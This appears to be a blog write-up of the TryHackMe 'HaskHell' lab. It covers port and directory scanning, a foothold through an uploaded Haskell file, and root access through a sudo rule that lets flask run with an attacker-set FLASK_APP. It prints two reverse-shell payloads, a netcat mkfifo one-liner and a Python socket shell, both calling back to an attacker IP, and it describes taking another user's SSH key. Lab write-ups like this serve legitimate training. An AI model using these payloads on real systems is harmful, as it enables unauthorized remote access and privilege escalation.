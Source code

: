 ```yaml
---
title: "TryHackMe - HaskHell"
author: Nasrallah
description: ""
date: 2022-12-19 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, medium, haskell, python, flask, sudo, hijacking]
img_path: /assets/img/tryhackme/haskhell
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [HaskHell](https://tryhackme.com/room/haskhell) from [TryHackMe](https://tryhackme.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.217.150                                             
Host is up (0.15s latency).                                                    
Not shown: 998 closed tcp ports (reset)                                                                                                                       
PORT     STATE SERVICE VERSION                                                 
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                                 
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)         
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)                
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)              
5001/tcp open  http    Gunicorn 19.7.1                                                                                                                        
|_http-title: Homepage                                                         
|_http-server-header: gunicorn/19.7.1                                          
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
```

We found two open ports, 22 running OpenSSH and 5001 running Gunicorn http web server.

## Web

Let's navigate to the web page on port 5001.

![](1.png)

This is the home page for the Haskell programming course, and we see that it provides a link to a homework.

![](2.png)

Here we can see the homework assignment, the professor provided a link to submit the solution.

We can see that only Haskell files are accepted, and once uploaded, they will be compiled and ran.

When we go to the upload link we get a 404, the professor must have included the wrong directory.

### Gobuster

Let's run a directory scan to find the upload page.

```terminal
└──╼ $ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.217.150:5001/ | tee gobuster
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.217.150:5001/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/11/21 07:38:51 Starting gobuster in directory enumeration mode
===============================================================
/submit               (Status: 200) [Size: 237]
                                                
===============================================================
```

Great! We found the page.

![](3.png)

# **Foothold**

Now we can upload the following haskell code that would give us a reverse shell.

```terminal
module Main where

import System.Process

main = callCommand "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | sh -i 2>&1 | nc 10.18.0.188 9001 >/tmp/f"
```


> Found the code above in https://www.revshells.com/

After setting up a listener and uploading the file, we successfully receive a shell.

![](4.png)


# **Privilege Escalation**

Checking other users' home directories, we find an ssh private key of `prof` user.

![](5.png)

Let's copy that to our machine and connect with it via ssh.

![](6.png)

Now let's check our current privileges with `sudo -l`.

```bash
$ sudo -l
Matching Defaults entries for prof on haskhell:
    env_reset, env_keep+=FLASK_APP, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User prof may run the following commands on haskhell:
    (root) NOPASSWD: /usr/bin/flask run
```

We can run flask as root. Let's run it and see what happens.

```terminal
$ sudo /usr/bin/flask run
Usage: flask run [OPTIONS]
                                       
Error: Could not locate Flask application. You did not provide the FLASK_APP environment variable.
                                       
For more information see http://flask.pocoo.org/docs/latest/quickstart/
```

We got an error saying that we did not provide the FLASK_APP environment variable.

So i created a python script that would send us a reverse shell and set it as the environment variable, i set up a listener and run flask again.

```bash
$ cat shell.py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.0.188",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")

$ export FLASK_APP=shell.py

$ sudo /usr/bin/flask run
```

![](8.png)

Congrats, we've rooted the machine.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
